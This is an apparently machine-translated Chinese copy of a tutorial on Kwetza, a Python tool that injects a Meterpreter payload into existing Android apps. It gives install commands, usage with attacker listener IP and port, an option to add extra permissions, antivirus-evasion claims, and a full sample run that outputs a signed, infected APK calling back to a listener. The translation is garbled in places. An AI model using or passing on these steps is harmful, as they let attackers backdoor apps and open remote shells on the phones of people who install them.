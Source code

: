 # kwet za——用 Meterpreter 有效负载感染现有 Android 应用程序的工具

> 原文：<https://kalilinuxtutorials.com/kwetza-android-application/>

Kwetza 是一个工具，允许您用 Meterpreter 有效负载感染现有的 Android 应用程序。Python 脚本为现有的 Android 应用程序注入了一个 Meterpreter 负载。

## **奎扎究竟做了什么？**

Kwetza 通过定制或默认的有效载荷模板感染现有的 Android 应用程序，以避免被反病毒软件检测到。Kwetza 允许您使用目标应用程序的默认权限感染 Android 应用程序，或者注入附加权限以获得附加功能。

**也读作[PEM cracker——破解加密 PEM 文件的工具](https://kalilinuxtutorials.com/pemcracker-encrypted-pem/)**

## **获取代码**

首先获取代码:

```
**git clone https://github.com/sensepost/kwetza.git** 
```

它是用 Python 编写的，需要 BeautifulSoup，可以使用 Pip 安装:

```
**pip install beautifulsoup4** 
```

它需要安装 Apktool，并且可以通过您的路径访问。这可以使用位于[这里](https://ibotpeaches.github.io/Apktool/install)的安装说明进行设置。

## **用法**

python kwetza . py name of apktoinfect . apk https/TCP LHOST LPORT 是/否自定义类

*   **nameoftheapktoinfect . apk**=您希望感染的 apk 的名称。
*   **https/tcp** =选择 https 或 tcp 连接
*   **LHOST** =你的监听器的 IP。
*   **LPORT** =您的监听器的端口。
*   **yes** =包含“yes”以将额外的邪恶 perms 注入应用程序，“no”以利用应用程序的默认权限。
*   **customClass** =如果您希望将自定义活动注入到此活动中，请在此处指定该活动。

```
**python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk** 
```

## 信息 

该工具是为配合 Python 2 而开发的。

默认情况下，它将使用位于“payload”文件夹中的模板和密钥库来注入和签名受感染的 apk。

如果您想用自己的证书对受感染的应用程序进行签名，请生成一个新的密钥库，并将其放在“payload”文件夹中，然后重命名为现有的密钥库，或者更改 kwetza.py 中的引用。

对于有效负载模板也可以这样做。

默认密钥库的密码是“password”。

[![](img//d861a9096555aeb1980fc054015933d7.png)](https://github.com/sensepost/kwetza)